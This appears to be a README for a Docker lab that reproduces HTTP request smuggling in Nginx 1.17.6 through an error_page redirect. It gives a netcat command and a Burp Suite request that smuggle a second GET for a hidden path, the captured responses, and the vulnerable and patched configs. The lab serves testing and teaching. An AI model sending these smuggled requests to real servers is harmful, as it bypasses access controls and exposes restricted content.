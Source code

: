 #	HTTP REQUEST SMUGGLING ON NGINX

##	AFFECTED VERSION

Nginx 1.17.6

##	Usage

DEMONSTARTION PURPOSE.

###	HOW TO CONFIGURE 

```bash
$ git clone https://github.com/403accessdenied/HTTP-REQUEST-SMUGGLING
$ cd HTTP-REQUEST-SMUGGLING
$ docker-compose up -d
```


The nginx server will on the port 9095.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 302 Moved Temporarily
```

1 HTTP code 302 means all right! 

Enjoy!



##	Reproduce

### open linux terminal and paste the below command

```bash
printf 'GET /a HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Content-Length: 56\r\n'\
'\r\n'\
'GET /sensitive/index.html HTTP/1.1\r\n'\
'Host: attackerhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9095
```

 ###  you will get two responses as following.

```http
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive

successfully accessed my secret!
```
## Reproduce using **Burpsuite**

1. Open bursuite and  open firefox browser 
2. Open the url **127.0.0.1:9095** in the browser 
3. Intercept the request and send it to the repeater 
4. Now replace the intercepted request with the following request
 
```bash 
GET / HTTP/1.1
Host: 127.0.0.1:9095
Content-Length: 56

GET /_hidden/index.html HTTP/1.1
Host: attackerhost


```

![burp-request](https://user-images.githubusercontent.com/102154743/159486728-f7605d05-6724-4500-a091-fbe670f90402.png)

5. When you send the request we will get below response


![burp-response](https://user-images.githubusercontent.com/102154743/159486730-227653af-d594-450f-87a3-c6c0cda04c61.png)

6.Repeat the process untill we will get **Two response from server** as below


![burp-desync](https://user-images.githubusercontent.com/102154743/159486724-71df79ac-94ca-4ec8-a011-2e3967092bac.png)

# Patch
```
NGINX supports the ability to have the error_page handler change the resulting error page and error code
into a 302 redirect, as such:
error_page 401 https://example.org/;
Other forms of the error_page handler are NOT vulnerable:
error_page 404 /404.html;
error_page 404 @404;
```
### vulnerable configaration in *default.conf*
```bash
server {
 listen 80;
 server_name localhost;
 error_page 401 http://example.org;
 location / {
 return 401;
 }
}
server {
 listen 80;
 server_name attackerhost;
 location /sesitive/index.html {
 return 200 'successfully accessed my secret';
 }
}
```

### Patch for above configaration 
```
server {
 listen 80;
 server_name localhost;
 error_page 401 @401;
 location / {
 return 401;
 }
 location @401 {
 return 302 http://example.org;
 }
}

server {
 listen 80;
 server_name attackerhost;
 location /sesitive/index.html {
 return 200 'successfully accessed my secret';
 }
}
```
#	Reference

https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf
